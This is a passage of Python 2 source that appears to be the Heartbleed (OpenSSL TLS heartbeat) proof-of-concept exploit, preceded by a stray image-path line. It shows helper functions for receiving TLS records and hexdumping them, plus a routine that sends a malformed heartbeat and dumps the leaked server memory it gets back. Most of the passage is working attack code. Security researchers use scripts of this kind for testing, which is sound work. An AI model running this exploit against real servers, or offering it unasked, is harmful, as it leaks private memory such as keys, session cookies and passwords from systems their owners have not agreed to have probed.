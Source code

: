 01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time() 
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata
        

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False
